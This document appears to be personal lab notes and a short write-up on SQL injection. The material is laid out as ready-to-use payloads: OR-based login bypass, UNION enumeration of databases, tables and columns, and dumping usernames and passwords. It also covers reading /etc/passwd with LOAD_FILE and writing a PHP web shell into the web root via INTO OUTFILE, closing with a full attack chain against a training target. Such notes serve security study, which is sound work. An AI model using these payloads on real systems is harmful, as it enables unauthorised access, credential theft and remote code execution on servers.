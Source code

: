 ### <span style=color:black>Auth Bypass with OR operator</span>
```sql!
tom' OR '1' = '1
```
```sql!
SELECT * FROM logins WHERE username = 'tom' OR '1' = '1' AND password = 'ANYPASSWORD';
```
### <span style=color:black>Auth Bypass with comments</span>
```sql!
123' OR id=5)-- -
```
```sql!
SELECT * FROM logins WHERE (username = '123' OR id=5)--' AND id>1) AND password = '202cb962ac59075b964b07152d234b70';
```
#### <span style=color:blue>This method try to exploit (Perimeter), such as : ' and )</span>

### <span style=color:red>**Union Un-even Columns**</span>
```sql!
MariaDB [employees]> DESCRIBE departments;
+-----------+-------------+------+-----+---------+-------+
| Field     | Type        | Null | Key | Default | Extra |
+-----------+-------------+------+-----+---------+-------+
| dept_no   | char(4)     | NO   | PRI | NULL    |       |
| dept_name | varchar(40) | NO   | UNI | NULL    |       |
+-----------+-------------+------+-----+---------+-------+

MariaDB [employees]> DESCRIBE employees;
+------------+---------------+------+-----+---------+-------+
| Field      | Type          | Null | Key | Default | Extra |
+------------+---------------+------+-----+---------+-------+
| emp_no     | int(11)       | NO   | PRI | NULL    |       |
| birth_date | date          | NO   |     | NULL    |       |
| first_name | varchar(14)   | NO   |     | NULL    |       |
| last_name  | varchar(16)   | NO   |     | NULL    |       |
| gender     | enum('M','F') | NO   |     | NULL    |       |
| hire_date  | date          | NO   |     | NULL    |       |
+------------+---------------+------+-----+---------+-------+

MariaDB [employees]> SELECT dept_no, dept_name, NULL, NULL, NULL, NULL FROM departments UNION SELECT * FROM employees LIMIT 15;
+---------+--------------------+---------+-------------+------+------------+
| dept_no | dept_name          | NULL    | NULL        | NULL | NULL       |
+---------+--------------------+---------+-------------+------+------------+
| d009    | Customer Service   | NULL    | NULL        | NULL | NULL       |
| d005    | Development        | NULL    | NULL        | NULL | NULL       |
| d002    | Finance            | NULL    | NULL        | NULL | NULL       |
| d003    | Human Resources    | NULL    | NULL        | NULL | NULL       |
| d001    | Marketing          | NULL    | NULL        | NULL | NULL       |
| d004    | Production         | NULL    | NULL        | NULL | NULL       |
| d006    | Quality Management | NULL    | NULL        | NULL | NULL       |
| d008    | Research           | NULL    | NULL        | NULL | NULL       |
| d007    | Sales              | NULL    | NULL        | NULL | NULL       |
| 10001   | 1953-09-02         | Georgi  | Facello     | M    | 1986-06-26 |
| 10002   | 1952-12-03         | Vivian  | Billawala   | F    | 1986-12-11 |
| 10003   | 1959-06-16         | Temple  | Lukaszewicz | M    | 1992-07-04 |
| 10004   | 1956-11-06         | Masanao | Rahimi      | M    | 1986-12-16 |
| 10005   | 1962-12-11         | Sanjay  | Danlos      | M    | 1985-08-01 |
| 10006   | 1963-12-30         | Marie   | Stafford    | M    | 1988-10-10 |
+---------+--------------------+---------+-------------+------+------------+
```
### Union Injection
We need to determine which columns are printed to the page, to determine where to place our injection.
```sql!
cn' UNION select 1,2,3,4-- -
```

```sql!
cn' UNION select 1,user(),3,4-- -
```


### Database Enumeration
```sql!
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```
- The first three databases are default MySQL databases and are present on any server, so we usually ignore them during DB enumeration. Sometimes there's a fourth 'sys' DB as well.

## MySQL Fingerprinting
### INFORMATION_SCHEMA Database
1. List of databases
2. List of tables within each database
3. List of columns within each table

### SCHEMATA
```sql!
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

---
```sql!
cn' UNION select 1,database(),2,3-- -
```
![](https://hackmd.io/_uploads/ryq6hYx6h.png)
---

### SCHEMATA.TABLES
The TABLE_NAME column stores table names, while the TABLE_SCHEMA column points to the database each table belongs to.
```sql!
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```
![](https://hackmd.io/_uploads/H1UlIte6n.png)
---

### SCHEMATA.COLUMNS
The COLUMNS table contains information about all columns present in all the databases.
```sql!
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```
![](https://hackmd.io/_uploads/Hy0VIKxp3.png)
---

### DATA GET!
```sql!
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```
![](https://hackmd.io/_uploads/ByUBouZ6h.png)
---

## Privilege
### USER_PRIVILEGES
```sql!
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

## READING_FILES
```sql!
SELECT LOAD_FILE('/etc/passwd');
```
![](https://hackmd.io/_uploads/ry9Lu1Gph.png)

## WRITE_FILES
```sql!
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
[Web root dir in Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)

[Web root dir in Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)


### file written successfully!
```sql!
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

#### web shell
```shell！
<?php system($_REQUEST[0]); ?>
```

### Union Injection Payload
```sql!
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

---
### Writeup
First, I try the auth bypass with OR operator 
```sql!
' OR 1=1-- -

'UNION SELECT 1,DATABASE(),2,3,4-- -

' UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4,5 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='ilfreight'-- -

' UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- -

' UNION SELECT 1,username,password,4,5 FROM ilfreight.users-- 
```
---
```sql!
' UNION SELECT 1,super_priv,3,4,5 FROM mysql.user WHERE user="root"-- -

' UNION SELECT 1, variable_name, variable_value, 4,5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -

' UNION SELECT 1,'file written successfully!',3,4,5 into outfile '/var/www/html/dashboard/proof.txt'-- - 

' UNION SELECT 1,'<?php system($_REQUEST[0]); ?>',3,4,5 into outfile '/var/www/html/dashboard/shell.php'-- -
```

![](https://hackmd.io/_uploads/rJuNVXQp2.png)


